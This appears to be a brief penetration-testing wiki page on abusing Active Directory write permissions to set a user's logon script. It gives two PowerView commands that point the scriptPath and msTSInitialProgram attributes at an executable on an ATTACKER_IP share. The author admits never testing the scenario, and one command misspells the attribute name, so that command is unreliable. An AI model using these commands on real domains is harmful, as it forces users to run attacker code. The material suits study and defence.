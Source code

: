 # Logon script

{% hint style="danger" %}
It is worth noting that during my tests, I couldn't find a way to practice this scenario. Since I didn't find practical enough resources on the Internet, feel free to reach out if you manage to exploit this.
{% endhint %}

This abuse can be carried out when controlling an object that has a `GenericAll` or `GenericWrite` over the target, or a `WriteProperty` premission over the target's logon script attribute (i.e. `scriptPath` or `msTSInitialProgram`).

The attacker can make the user execute a custom script at logon. This can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash

Set-DomainObject testuser -Set @{'msTSTnitialProgram'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose

Set-DomainObject testuser -Set @{'scriptPath'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose
```
